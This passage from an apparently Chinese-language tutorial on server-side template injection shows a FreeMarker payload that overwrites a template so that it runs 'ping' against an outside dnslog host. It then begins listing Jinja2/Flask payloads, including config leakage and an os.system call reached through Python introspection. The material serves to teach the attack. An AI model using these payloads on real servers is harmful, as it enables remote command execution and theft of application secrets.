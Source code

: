 模板注入的前提是在无过滤的情况下，使用模板来解析我们输入的字符，可以通过页面上的变化，来判断我们输入的内容是否被解析，如上图我们输入的内容被成功解析到页面上，并且没有过滤。

首先需要控制被攻击模板 /template 的内容，也就是要将本来无危害的模板文件实时更改为可攻击的模板内容。使用的payload



```
{"hello.ftl": "<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"ping ilxwh0.dnslog.cn\") }<title>Hello!</title><link href=\"/css/main.css\" rel=\"stylesheet\"></head><body><h2 class=\"hello-title\">Hello!</h2><script src=\"/js/main.js\"></script></body></html>"}
```

[![img](https://gitee.com/Cralwer/typora-pic/raw/master/images/1344396-20200911170426315-957198191.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911170426315-957198191.png)

关键代码在上图的红框中，接收用户传入的参数，使用keySet()获取key值，遍历相应的模块名字，使用StringTemplateLoader来加载模板内容，并使用putTemplate将key对应的value（也就是payload）写入templateKey中。这样就可以覆盖 hello.ftl 文件的内容，具体如下：

[![img](https://gitee.com/Cralwer/typora-pic/raw/master/images/1344396-20200911171827668-2059326925.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911171827668-2059326925.png)

重新更改了加载的模板内容后，然后直接访问受影响的模板文件路径，此时恶意的模板文件内容就会被加载成功了，并执行了系统命令

[![img](https://gitee.com/Cralwer/typora-pic/raw/master/images/1344396-20200911173804255-14835990.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911173804255-14835990.png)

dnslog平台也受到了请求

[![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911173946071-111351701.png)](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911173946071-111351701.png)

## 二、开始运用

![](https://gitee.com/Cralwer/typora-pic/raw/master/images/1599480440997-00e10dda-bb44-4fe7-9b87-2a8de03b598d.png)

这张图可以说是百试百灵了，然后接下来我们继续根据不同的模版和语言特性进行常用payload的使用总结

### Jinja2使用

### 1.flask的全局变量

```
config 保存着隐私信息
config.from_object('os') 
request.environ是一个字典，其中包含和服务器环境相关的对象 
```

### 2.python强大的内省特性

```
总结:
通过某种类型(字符串:""，list:[]，int：1)开始引出，__class__找到当前类，__mro__或者__base__找到__object__，前边的语句构造都是要找这个。然后利用object找到能利用的类。还有就是{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')}}这种的，能执行，但是不会回显。一般来说，python2的话用file就行，python3则没有这个属性。
```
